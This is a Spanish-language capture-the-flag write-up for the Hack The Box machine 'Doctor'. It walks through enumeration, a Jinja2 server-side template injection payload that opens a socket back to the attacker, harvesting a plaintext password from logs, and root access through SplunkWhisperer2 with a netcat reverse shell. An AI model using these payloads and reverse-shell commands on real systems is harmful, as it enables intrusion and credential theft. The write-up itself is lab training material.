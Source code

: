 ```yaml
---
layout: post
title: HTB_Doctor
date: 2023/07/10
slug: HTB_Doctor
heroImage: /assets/machines.jpg
---
```


# Doctor {-}

## Introduccion {-}

La maquina del dia se llama Doctor.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/kaHpsn1HLp4/0.jpg)](https://www.youtube.com/watch?v=kaHpsn1HLp4)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.209
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.209
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80,8089 10.10.10.209 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 80     | http          | Web, Fuzzing       |                      |
| 8089   | https splunkd | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.209
```

Es un Apache 2.4.41 en un Ubuntu. Vemos un email `info@doctors.htb` Podria ser un usuario y un dominio. Añadimos el dominio al `/etc/hosts`

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.209`, vemos una pagina de un cabinete de doctor. Navigamos un poco en la web pero no hay nada interesante.
Si entramos en la web por el dominio `http://doctors.htb` vemos una nueva pagina. Se esta aplicando virtual hosting. Esta pagina es un login.
El wappalizer nos dice que es un Flask en python.

Aqui de seguida pensamos en un **Template Injection**.

De primeras creamos un nuevo usuario en el panel de registro. 
Vemos que nuestra cuenta a sido creada con un limite de tiempo de 20 minutos. Nos loggeamos y vemos un boton con un numero 1.
Si pinchamos, vemos en la url `http://doctors.htb/home?page=1`. Miramos si se puede aplicar un LFI

```bash
http://doctors.htb/home/page=/etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd%00
http://doctors.htb/home/page=../../../../../../../../etc/passwd?
```

Aqui no vemos nada.

Hay un link en la pagina para redactar un nuevo mensaje.

```bash
Title: EEEEEEEEE
Content: Hola
```

Aqui vemos que el mensaje esta visible en la pagina.

> [ ! ] NOTAS: Tito nos habla de probar un RFI (Remote File Inclusion) que seria algo que probar pero nos adelanta que no funcciona en este caso.

Aqui miramos de Injectar etiquetas HTML y XSS pero no funcciona.
## Vulnerability Assessment {-}

### Server Side Template Injection {-}


```bash
Title: {{9*9}}
Content: {{2*3}}
```

Vemos que en esta parte no nos lo interpreta. Si miramos el codigo fuente, vemos que hay un link que esta en la url `http://doctors.htb/archive` y que esta
en beta testing.

Si vamos a la url en question, hay una pagina blanca pero si otra vez, miramos el codigo fuente, en este caso de la pagina `/archive`, podemos ver que hay 
un numero **81**. Quiere decir que en el directorio **archive** esta interpretando el **SSTI** de los mensajes.

El caso del SSTI nos permite injectar comandos a nivel de systema usando el systema de templating. Si vamos a la carpeta **Server Side Template Injection** de
la pagina de [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) podemos copiar la Injeccion
de Jinja2 **Exploit the SSTI by calling Popen without guessing the offset**





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

1. Nos ponemos en escucha por el puerto 443
1. Creamos un nuevo mensaje con el payload

    ```bash
    Title: {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    Content: TEST
    ```

1. Recargamos la url `http://doctors.htb/archive`

Boom... estamos en la maquina victima.

```bash
whoami
#Output
web

hostname -I
```

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Userpivoting {-}

```bash
cd /home
grep "$sh" /etc/passwd
cd /root
id
```

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo `adm`. Podriamos visualisar los logs

```bash
cd /var/log
grep -r -i "pass"
grep -r -i "pass" 2>/dev/null
```

Vemos en el **apache2/backup** que hay una peticion POST para resetear una contraseña `Guitar123`

```bash
su shaun
Password: Guitar123

cat /home/shaun/user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
cd /
ls -l
cd /opt
```

Aqui vemos un directory splunkforward. Nos hace pensar que teniamos un puerto 8089 abierto con un splunkd.
Si vamos a esta url `https://10.10.10.209:8089` vemos un servicio splunkd.

Aqui podemos tirar de un exploit en el github de [cnotin](https://github.com/cnotin/SplunkWhisperer2) que permite hacer un
Local o un Remote privilege escalation. En este caso utilizaremos el Remoto.

```bash
git clone https://github.com/cnotin/SplunkWhisperer2
cd SplunkWhisperer2
ls
python3 PySplunkWhisperer2_remote.py
```

aqui vemos como se utiliza. Intentamos primeramente enviar una traza ICMP a nuestra maquina para ver si funcciona.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. lanzamos el exploit para enviar una traza ICMP

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.7"
    ```

Vemos que recibimos la traza. Ahora nos mandamos una reverse shell

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit para entablar una reverse shell

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash 10.10.14.7 443"
    ```

La conneccion esta entablada.

```bash
whoami
#Output
root
```
